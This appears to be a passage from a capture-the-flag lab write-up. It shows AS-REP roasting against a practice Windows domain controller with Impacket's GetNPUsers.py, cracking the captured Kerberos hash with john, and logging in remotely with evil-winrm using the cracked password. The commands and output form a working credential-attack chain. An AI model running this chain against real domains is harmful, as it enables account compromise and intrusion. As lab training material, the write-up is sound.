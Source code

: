 
Without passwords, one of our options on a Windows domain controller using `Kerberos` is something called kerberoasting. [This article](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/) is a great resource that goes into better detail on these processes. Essentially, we can use a [tool from Impacket](https://github.com/SecureAuthCorp/impacket) to potential harvest some non-preauth AS_REP responses. This may reveal some password hashes that we can crack.

Using our list, we can run our command `GetNPUsers.py` to attempt to harvest these responses.

```
$ GetNPUsers.py -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -format hashcat
```

![](images/kerberoast.png)

Success! This yields a hash for the user `fsmith`. We'll use john to crack the hash and reveal the users password.

```
$ sudo john user.hash --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
1g 0:00:00:22 DONE (2020-06-05 22:58) 0.04357g/s 459204p/s 459204c/s 459204C/s Thing..Thereisnospoon
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We have a few options with these credentials. Let's go ahead and try to remotely connect to the domain controller with evil-winrm.  

```
$ evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

We successfully connect. Now we have our foothold, let's collect the user flag.

![](images/user-flag.png)
